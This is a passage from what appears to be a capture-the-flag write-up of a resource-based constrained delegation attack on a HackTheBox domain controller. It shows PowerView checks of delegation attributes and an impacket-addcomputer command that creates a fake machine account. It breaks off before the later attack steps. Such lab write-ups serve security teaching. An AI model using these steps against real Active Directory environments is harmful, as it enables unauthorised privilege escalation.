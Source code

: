 
##### Requirement 4 - There must be at least One Domain Controller running Windows Server 2012 or newer in the environment. {#requirement-4-there-must-be-at-least-one-domain-controller-running-windows-server-2012-or-newer-in-the-environment-dot}

-   At the start of the engagement we can see that the level of the `domainFunctionaility` level is 7. Level 7, requires that the domain environment be running Windows Server 2016 or newer.
    -   [X] Satisfied


##### Requirement 5 - The `msds-allowedtoactonbehalfofotheridentity` must be empty: {#requirement-5-the-msds-allowedtoactonbehalfofotheridentity-must-be-empty}

-   This attribute allows a service to impersonate or act on behalf of another account (e.g., a user or computer) when accessing network resources. Which is exactly what we need, as our fake computer will act on behalf of the DC.
-   I upload `PowerView.ps1` to the host &amp; then run the following command:
    -   `Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity`
    -   **Check the Value**:
        -   {{< figure src="/ox-hugo/2024-09-06-090432_.png" >}}
        -   We can see it's empty, this is good, as it means we can set the value. If this was already set we could not progress unless we controlled that specific account.


##### Requirement 6 - Various Fake Machine Requirements: {#requirement-6-various-fake-machine-requirements}

-   We actually don't need to worry about these at the moment, these will be generated whilst we perform the attack.
    1.  The Fake Computer SID
    2.  The Name of Fake Computer
    3.  The Fake Computer Password


## 4. Ownership: {#4-dot-ownership}


### Performing the Attack: {#performing-the-attack}

-   **Great video of the attack here**:
    -   <https://youtu.be/RUbADHcBLKg?si=bro7uomiQtukaIpe&t=563>


#### 1. Add the Computer: {#1-dot-add-the-computer}

1.  **Create the computer using Impacket**:
    -   `impacket-addcomputer -computer-name 'bloodstiller' -computer-pass 'hackme' -dc-ip $dcip support.htb/support`
    -   {{< figure src="/ox-hugo/2024-09-06-093344_.png" >}}

2.  **I verify the computer was made using PowerView**:
    -   `Get-AdComputer -identity bloodstiller`
    -   {{< figure src="/ox-hugo/2024-09-06-094807_.png" >}}
        -   +Note+: be patient, this can hang for a number of seconds!
    -   I also grab the SID of the computer as we will need this moving forward:
        -   `S-1-5-21-1677581083-3380853377-188903654-6101`
